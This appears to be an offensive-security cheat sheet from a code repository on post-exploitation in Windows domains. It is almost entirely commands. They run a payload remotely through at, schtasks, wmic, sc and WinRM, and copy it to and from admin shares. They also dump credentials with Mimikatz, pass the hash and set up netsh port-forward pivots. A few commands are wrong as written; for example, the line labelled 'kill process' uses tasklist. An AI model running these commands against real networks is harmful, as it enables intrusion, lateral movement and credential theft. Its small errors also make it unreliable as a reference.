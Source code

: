 # Agentless Post-Exploitation

## Reconnaissance
```
echo %LOGONSERVER%
net view /DOMAIN:domain
```

## Check Administrators Rights
```
dir \\host\C$
at \\host
```

## Execute : at
```
net time \\host
at \\host HH:MM c:\windows\temp\foobar.exe
```
## Execute : SCHTASKS
```
schtasks /create /tn foobar /tr c:\windows\temp\foobar.exe /sc once /st 00:00 /S host /RU System
schtasks /run /tn foobar /S host
schtasks /F /delete /tn foobar /S host
```

## Execute : wmic
```
wmic /node:host process call create "c:\windows\temp\foobar.exe"
```

## Execute : sc
```
sc \\host create foobar binpath= "c:\windows\temp\foobar.exe"
sc \\host start foobar
```

## Execute : WinRM
```
InvokeCommand -ComputerName TARGET -ScriptBlock { dir c:\ }
```

## Upload && Download
```
C$ : C:\
ADMIN$ : %SYTEMROOT% (C:\Windows\)

Upload:
copy payload.exe \\host\ADMIN$\temp\

Download:
copy \\host\ADMIN$\temp\payload.exe payload.exe
```

## Process Manipulation
```
List Process:
tasklist /v /S TARGET

Kill Process:
tasklist /S TARGET /PID PID /f
```

## Mimikatz
```
Invoke-Mimikatz -ComputerName TARGET
Invoke-Mimikatz -ComputerName TARGET -Command command
```

## Pass-the-hash Mimikatz
```
mimikatz sekurlsa::pth /user:Administrator /ntlm:<ntlm> /run:"cmd.exe"
```

## Pivoting
```
netsh interface portproxy add v4tov4 listenport=<LPORT> listenaddress=0.0.0.0 connectport=<RPORT> connectaddress=<RHOST>
```

